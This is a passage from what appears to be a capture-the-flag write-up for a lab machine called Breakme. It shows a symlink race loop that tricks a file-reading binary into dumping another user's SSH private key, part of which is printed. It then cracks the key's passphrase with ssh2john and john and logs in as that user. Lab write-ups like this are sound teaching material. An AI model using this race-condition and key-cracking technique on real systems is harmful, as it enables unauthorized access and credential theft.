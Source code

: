 As we can see, after a while, we win the race and manage to read `/home/youcef/.ssh/id_rsa`.

```console
john@Breakme:~$ while true; do touch file; sleep 0.3; ln -sf /home/youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &
[1] 54913
john@Breakme:~$ while true; do out=$(/home/youcef/readfile file | grep -Ev 'Found|guess'| grep .);if [[ -n "$out" ]]; then echo -e "$out"; break; fi; done
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z
...
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
```
{: .wrap }

> For some reason, if you try to run the commands in `/dev/shm` or `/tmp`, it fails. So, try running them in `/home/john`.
{: .prompt-warning }

### SSH Connection

Well, now that we have an SSH key, if we try to use it to get a shell, we find that the key is encrypted with a passphrase.

```console
$ ssh -i id_rsa youcef@10.10.225.113
Enter passphrase for key 'id_rsa':
```

We can try brute-forcing the passphrase. First, we use `ssh2john` to convert it to a format that `john` can work with.

```console
$ ssh2john id_rsa > ssh_key.hash
```

Now, using `john` to crack it, we obtain the passphrase.

```console
$ john ssh_key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Using the key with the found passphrase, we are able to obtain a shell as `youcef` and read the second flag.

```console
$ ssh -i id_rsa youcef@10.10.225.113
Enter passphrase for key 'id_rsa':
...
youcef@Breakme:~$ id
uid=1000(youcef) gid=1000(youcef) groups=1000(youcef)
youcef@Breakme:~$ wc -c .ssh/user2.txt
33 .ssh/user2.txt
```

